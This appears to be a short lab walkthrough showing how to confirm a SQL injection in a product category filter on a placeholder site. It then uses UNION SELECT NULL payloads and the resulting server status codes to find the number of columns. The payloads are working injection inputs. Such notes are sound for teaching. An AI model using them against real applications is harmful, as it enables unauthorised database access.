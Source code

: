 # SQL injection, determining the number of columns returned by the query

### Goal:
`Get the application to return an additional row that contains null values`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`

<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`<br><br>

category='--

`200`
<br><br>

**<ins>Step 2: Enumerate data output with UNION attack</ins>**

category='UNION SELECT NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL,NULL--

`200`

This means that the database returns three columns.

